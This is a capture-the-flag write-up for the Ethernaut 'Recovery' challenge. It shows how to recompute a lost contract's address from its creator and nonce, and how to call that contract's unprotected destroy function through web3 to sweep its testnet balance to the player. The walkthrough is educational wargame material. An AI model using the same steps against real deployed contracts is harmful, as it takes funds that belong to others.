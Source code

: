 ## Recovery

## Key

### Trace info of Tx in ethernaut

### Computation of a lost contract address

> The address of an external account is determined from the public key while the address of a contract is determined at the time the contract is created (it is derived from the creator address and the number of transactions sent from that address, the so-called “nonce”).
> https://docs.soliditylang.org/en/v0.8.13/introduction-to-smart-contracts.html#accounts

> Yellow paper
> The address of the new account is defined as being the rightmost 160 bits of the Keccak-256 hash of the RLP encoding of the structure containing only the sender and the account nonce. For CREATE2 the rule is different and is described in EIP-1014 by Buterin [2018].
> https://ethereum.github.io/yellowpaper/paper.pdf

```js
address = right-20-bytes(keccak(RLP(sender address, nonce)))

nonce -> number of Tx that address made.
address -> EOA or contract
RLP -> serializes data in ethereum
```

If you loose the receipt of a Tx you need to reecompute the contract address
Methods to find a contract address

`selfdestruct(_to)` destroys the current contract and sends the money in its balance to the account sent via argument.

## Solution

A) Via ethernaut, search details of Tx that created Recovery contract
https://rinkeby.etherscan.io/address/0x8F84076845892c291E5b9c430De3B4b7bbDE4224#internaltx
https://rinkeby.etherscan.io/tx/0xb232035a6a5dd60481aa18a08952c6846e651ead6d1fb4ba0e046e4a66fb6ca4

![](../images/tx-info.png)

First transfer oth eth is to the address `0xa90ca8c74dF7A35544f85A4411EeA2fFfB396665`. And that is the address needed with a Balance of 0.001 Ether.

B) Computing the address

1. Find formula to compute the address of the first SimpleToken contract created.
2. Fill: addr of `Recovery` as the sender address, `nonce` == 1 as we want by the task the "first token contract"
3. Calculate in browser

```
address = 0x8F84076845892c291E5b9c430De3B4b7bbDE4224

# keccak & RLP serialization with address and nonce "0x01"
> web3.utils.solidtiySha3("0xd6", "0x94", _address, _nonce)
> computed = web3.utils.soliditySha3("0xd6", "0x94", contract.address, "0x01")
"0xf6fe46076b3e1b23265b2357a90ca8c74df7a35544f85a4411eea2fffb396665"

~20bytes == 40 chars from the right to the left.
> computed.slice(-40)
"a90ca8c74df7a35544f85a4411eea2fffb396665"
```

C) Call `destroy(player)` function on the Simpletoken contract recently found. That fn in turns willcall `selfdestruct(player)` to transfer to ourselves the balance of the "lost" SimpleToken contract.

_Optional_ invoke those fn without creating a malicious contract via web3:

```
> data = web3.eth.abi.encodeFunctionCall({
    name: 'destroy',
    type: 'function',
    inputs: [{
        type: 'address',
        name:'_to'
    }]
}, [player]);

# here put the founded address of SimpleToken contract with that payload data
> await web3.eth.sendTransaction({
    to: "0xa90ca8c74df7a35544f85a4411eea2fffb396665",
    from: player,
    data: data
})
```

## Post-solution info

Contract addresses are deterministic and are calculated by `keccack256(address, nonce)` where the `address` is the address of the contract (or ethereum address that created the transaction) and nonce is the number of contracts the spawning contract has created (or the transaction nonce, for regular transactions).

Because of this, one can send ether to a pre-determined address (which has no private key) and later create a contract at that address which recovers the ether. This is a non-intuitive and somewhat secretive way to (dangerously) store ether without holding a private key.

An interesting [blog post](http://martin.swende.se/blog/Ethereum_quirks_and_vulns.html) by Martin Swende details potential use cases of this.

If you're going to implement this technique, make sure you don't miss the nonce, or your funds will be lost forever.
